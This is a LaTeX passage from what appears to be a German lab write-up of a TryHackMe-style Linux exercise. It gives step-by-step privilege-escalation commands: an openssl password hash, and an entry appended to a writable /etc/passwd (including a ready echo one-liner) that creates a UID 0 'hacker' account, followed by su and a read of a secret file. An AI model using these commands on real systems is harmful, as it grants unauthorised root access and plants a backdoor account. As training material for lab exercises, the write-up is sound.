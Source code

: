 \documentclass[10pt, a4paper,onecolumn ,titlepage]{article}
\begin{document}
    \begin{figure}[H]
        \centering
        \includegraphics[width=1\textwidth]{storyline_bilder_vm2/ScanSchwachstellen}
        \caption{Scan auf Schwachstellen nach oben beschriebenen Vorgehen.
        Mögliche Schwachstellen erkannt bei den Schreibrechten der /etc/passwd Datei und der Sudo Version 1.8.27.}
        \label{fig:scan}
    \end{figure}
    \noindent



    \subsubsection{Privilege Escalation unter Ausnutzung der /etc/passwd Datei}
    \label{subsubsec:privilegeEscalation1}
    Nachdem mögliche Schwachstellen bereits aufgedeckt wurden, gilt es diese nun auszunutzen.
    Tims Freund~\textcite{privilegeEscalationRaumTryHackMe} beschreibt in seinem \href{https://tryhackme.com/room/linprivesc}{\textbf{TryHackMe Raum}} anschaulich wie ein neuer Nutzer in die /etc/passwd Datei eingefügt werden kann.
    Kurz und prägnant zusammengefasst, ist dies durch folgende Schritte zu erreichen:

    \begin{enumerate}[leftmargin=2.5cm]
        \item[1.] \textit{openssl passwd -1 -salt THM password1}  in die Kommandozeile eingeben, um den hash-Wert für das Passwort des neuen Nutzers zu erzeugen.
        \item[2.] \textit{nano /etc/passwd}  in die Kommandozeile eingeben, um die /etc/passwd Datei im Texteditor nano zu öffnen.
        \item[3.] \textit{hacker:in Schritt 1. erzeugtes Passwort:0:0:root:/root:/bin/bash}  als neue Zeile einfügen, um einen neuen root Nutzer names Hacker zu erzeugen.
                Wichtig ist die Verwendung von :/root./bin/bash um eine root Shell zu erzeugen.
        \item[4.] Die Datei schließe und vorgenommene Änderungen speichern.
        \item[5.] \textit{su hacker} in die Kommandozeile eingeben, um den Nutzer zu wechseln.
        \item[6.] \textit{cat SuperSecretFile.txt} in die Kommandozeile eingeben, um den Inhalt der Datei zu sehen.
        \item[7.] \textbf{Alternativ} kann nach Schritt 1. eine neue Zeile mittels echo Befehl in die /etc/passwd Datei eingefügt werden: \textit{echo 'hacker:'\$1\$THM\$tYgpU9xzsOZ98alD7sjt70':0:0:root:/root:/bin/bash' >> /etc/passwd}
    \end{enumerate}
\end{document}
